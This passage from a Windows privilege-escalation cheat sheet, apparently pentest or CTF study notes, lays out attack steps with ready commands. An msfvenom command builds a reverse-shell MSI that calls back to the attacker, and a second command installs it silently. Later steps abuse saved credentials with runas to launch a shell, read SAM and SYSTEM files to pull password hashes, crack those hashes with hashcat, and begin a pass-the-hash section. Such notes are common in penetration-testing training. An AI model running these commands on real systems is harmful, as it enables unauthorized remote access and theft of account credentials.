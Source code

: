 Generate a new reverse shell with msi extension

```powershell
C:\Cas> msfvenom -p windows/x64/shell_reverse_tcp lhost=<my-ip> lport=443 -f msi -o shell.msi
```

```powershell
C:\Cas> msiexec /quiet /qn /i shell.msi
```

## Passwords

### Registry

??? info "info"
    Registry — “Plenty of programs store configuration options in the Windows Registry. Windows itself sometimes will store passwords in plaintext in the Registry. It is always worth searching the Registry for passwords.”

### Saved Creds

??? info "info"
    Windows has a runas command which allows users to run commands with the privileges of other users. This usually requires the knowledge of the other user’s password. However, Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement.

```powershell
C:\Cas> cmdkey /list
```

```powershell
C:\Cas> runas /savecred /user:<user_name> shell.exe
```

### Security Account Manager (SAM)

??? info "info"
    “Windows stores password hashes in the Security Account Manager (SAM). The hashes are encrypted with a key which can be found in a file named SYSTEM. If you have the ability to read the SAM and SYSTEM files, you can extract the hashes.”

    The SAM and SYSTEM files:  `C:\\Windows\System32\config `
    Backups of the files may exist: `C:\\Windows\\Repair` or `C:\\Windows\\System32\\config\\RegBack `
    Extract the hash using ‘[CredDump](https://github.com/Neohapsis/creddump7.git)’
    Use hashcat to crack hash

```powershell
C:\Cas> hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

### Passing the Hash

??? info "info"
    Windows accepts hashes instead of passwords to authenticate to a number of services. We can use a modified version of winexe, pth-winexe to spawn a command prompt using the admin user’s hash
